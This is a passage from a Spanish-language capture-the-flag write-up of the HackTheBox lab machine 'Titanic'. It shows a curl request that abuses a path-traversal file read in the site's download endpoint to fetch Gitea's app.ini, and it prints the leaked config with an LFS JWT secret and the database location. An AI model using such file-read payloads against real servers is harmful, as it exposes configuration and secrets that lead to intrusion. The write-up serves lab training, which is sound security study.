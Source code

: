 ~~~ bash
gitea/conf/app.ini
~~~

Sabiendo esto, podremos consultar dicho archivo para comprobar su existencia bajo el directorio `/home/developer/gitea/data`

~~~ bash
curl -sX GET 'http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/conf/app.ini'
APP_NAME = Gitea: Git with a cup of tea
RUN_MODE = prod
RUN_USER = git
WORK_PATH = /data/gitea

[repository]
ROOT = /data/git/repositories

[repository.local]
LOCAL_COPY_PATH = /data/gitea/tmp/local-repo

[repository.upload]
TEMP_PATH = /data/gitea/uploads

[server]
APP_DATA_PATH = /data/gitea
DOMAIN = gitea.titanic.htb
SSH_DOMAIN = gitea.titanic.htb
HTTP_PORT = 3000
ROOT_URL = http://gitea.titanic.htb/
DISABLE_SSH = false
SSH_PORT = 22
SSH_LISTEN_PORT = 22
LFS_START_SERVER = true
LFS_JWT_SECRET = OqnUg-uJVK-l7rMN1oaR6oTF348gyr0QtkJt-JpjSO4
OFFLINE_MODE = true

[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD = 
LOG_SQL = false
SCHEMA = 
SSL_MODE = disable

[indexer]
ISSUE_INDEXER_PATH = /data/gitea/indexers/issues.bleve

[session]
PROVIDER_CONFIG = /data/gitea/sessions
PROVIDER = file

[picture]
AVATAR_UPLOAD_PATH = /data/gitea/avatars
REPOSITORY_AVATAR_UPLOAD_PATH = /data/gitea/repo-avatars

[attachment]
PATH = /data/gitea/attachments

[log]
MODE = console
LEVEL = info
ROOT_PATH = /data/gitea/log
~~~